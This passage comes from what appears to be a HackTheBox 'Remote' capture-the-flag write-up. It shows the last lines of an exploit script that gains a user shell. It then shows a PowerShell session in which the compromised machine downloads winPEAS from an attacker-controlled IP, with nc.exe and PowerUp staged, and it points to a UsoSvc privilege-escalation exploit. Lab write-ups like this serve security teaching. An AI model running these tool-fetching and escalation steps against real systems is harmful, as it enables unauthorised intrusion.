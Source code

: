 ```
# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```

By executing it, we get the shell as `user`.

![]({{ "/images/htb/remote/getinasuser.png" | relative_url }})

![]({{ "/images/htb/remote/usertxtX.png" | relative_url }})

## **<span style='color:#ff5555'>Exploit</span>**
***

> [UsoSvc Exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc)

We try run **winpeas** to see which vulnerabilities are in this machine and after 10 minutes exploring around, I found an interesting stuff to abuse `UsoSvc`.

```
PS C:\tmp> invoke-webrequest -Uri http://10.10.14.75:8000/winPEAS.exe -OutFile winpeas.exe
invoke-webrequest -Uri http://10.10.14.75:8000/winPEAS.exe -OutFile winpeas.exe

PS C:\tmp>
PS C:\tmp> dir
dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/5/2020  12:51 PM          38616 nc.exe
-a----         9/5/2020   1:00 PM         494860 powerup.ps1
-a----         9/5/2020   1:11 PM         472064 winpeas.exe


PS C:\tmp> .\winpeas.exe
.\winpeas.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a
new CMD
```

![]({{ "/images/htb/remote/vulnX.png" | relative_url }})

## **<span style='color:#ff5555'>Getting to Administrator</span>**
***

